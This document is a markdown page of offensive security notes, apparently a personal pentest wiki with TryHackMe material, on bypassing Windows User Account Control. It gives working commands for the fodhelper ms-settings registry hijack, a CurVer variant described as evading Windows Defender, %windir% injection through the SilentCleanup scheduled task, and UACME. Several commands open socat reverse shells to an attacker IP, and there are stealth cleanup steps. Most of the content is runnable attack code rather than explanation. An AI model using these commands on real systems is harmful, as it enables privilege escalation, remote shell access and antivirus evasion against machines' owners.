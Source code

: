 # Bypassing Windows User Account Control

For the fundementals of UAC see [[Windows-User-Account-Control]]

When creating a backdoor post exploit you may see this error:
```powershell
net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

`whoami /groups` will show that the session is running in medium Integrity Levels, UAC prevents even Administrators from performing administrative tasks with filtered token.

## GUI Based Bypasses

#### msconfig

From the `Search -> Run`  open `msconfig`, using the [[Process-Hacker]] if it runs with High IL: navigate to the `Tools` tab and select `Command Prompt` 

#### azman.msc 
From the `Search -> Run`  open, using the [[Process-Hacker]] if it runs with High IL: Click the tab `Help -> Help Topics -> Right-Click -> View-Source`, which will open notepad `File -> Open C:\Windows\System32\cmd.exe`, but then when you find it in the file listing `Right-Click -> Open`

## UAC AutoElevate Processes

Some executable can auto-elevate to high IL - most of Control Panel's functionality and some native executables. Requirements for auto-elevation:
1. The executable must be signed by Windows Publisher
2. The executable must be contained in trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/

Additional requirements depending on application:
	1. Executable files must declare the autoElevate element inside their manifests - use [[Sysinternals-Sigcheck]] to check manifest.
	2. mmc.exe will auto elevate depending on the .msc snap-in taht the user requests - most Windows .msc files will auto-elevate.
	3. Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. [[UAC-AutoElevate-List]]
	4. COM objects can request auto-elevation by configuring registry keys [Docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)

#### fodhelper
fodhelper is default windows executable in charge of managing Windows optional features, infamously used in [Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit). Fodhelper can auto elevate when using default settings and can be exploited without GUI access. 

Create a association for ProgID for a file in current users HKCU, allow us to override the default system-wide association and control the `command` used to open that file. To elaborate, the Programming ID(ProgID) key in the registry is associated with the application. Windows prioritises the HKCU over the HKLM key. The command used to specify the subkey located within the registry tree  `shell/open/command`. 

```batch
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>""
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f
```

Delete for stealth:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

Query to check:
```batch
reg query %REG_KEY% /v ""
```

## Windows Defender
Same as the above, but the final line is:
```batch
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Warning this may still fail. It succeeds base whether the payload or AV executes first. It is still detected by Windows Defender. The improved version is from :[v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

Instead of \\Shell\\Open\\command, we use `CurVer` entry under a progID registry key, which commonly used when you have multiple instances of an application with different version running on the same system, `CurVer` points to a default version.

Modified [v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) version from Tryhackme.
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

# create new progID with name .pwn  
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

# points to CrVer entry of ms-settings
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

It is more likely to evade Windows Defender as name of the progID that holds our payload is entirely arbitrary. Instead of Windows Defender matching a single indicator, the pointing is transitive and therefore evasive as it encapsulated in the act of point, data-wise. But AV detection methods are implemented strictly against the published exploit so: 
```batch
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

Clean up:
```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

## UAC Enivronment Variable Expansion

If UAC is configured to `Always Notify`, similar autoElevate exploiatable application won't work. Instead scheduled tasks that can be run by any user, but executed at highest privileges available to the caller - disabling Windows Defender prior to this is required.

Using `Task Scheduler` tasks can set `When running the task, use the following user account: Run only when user is logged on; Run whether user is is logged on or not - [] Do not store password. The task will only have access to local resources` plus it has another checkbox for `Run with highest privileges`, this will use the highest Integrity Level the user has - this is an so Administrator only exploit.

For example(with` Task Scheduler` open) with `DiskCleanup`:
`Double Click Task -> GOTO -> Actions tab`; if the run on-demand command depends on enviroment variables it is possible to inject commands and then have the task execute them by starting it manually.

`%windir%` can be overriden by creating an entry in the `HKCU\Environment`
set `%windir%` to `"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

**Be sure to note the executed command to avoid any artefact interfering with anything else.  Since many Windows components rely on the %windir% environment variable, a lot of things won't properly work until you remove the registry key used for this bypass.**

```batch
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

And for the cleanup
```batch
reg delete "HKCU\Environment" /v "windir" /f
```

## UACME

[UACME Github](https://github.com/hfiref0x/UACME) *"Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor."*

Run executable from command line: akagi32 [[UACME-Keys]] Param or akagi64 [[UACME-Keys]] Param. 

First parameter is number of method to use, second is optional command (executable file name including full path) to run. Second parameter can be empty - in this case program will execute elevated cmd.exe from system32 folder. See listing of keys locally: [[UACME-Keys]] or [externally](https://github.com/hfiref0x/UACME)

## Reference

[COM Elevation Moniker Documentation](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)
[Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)
[v3ded Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
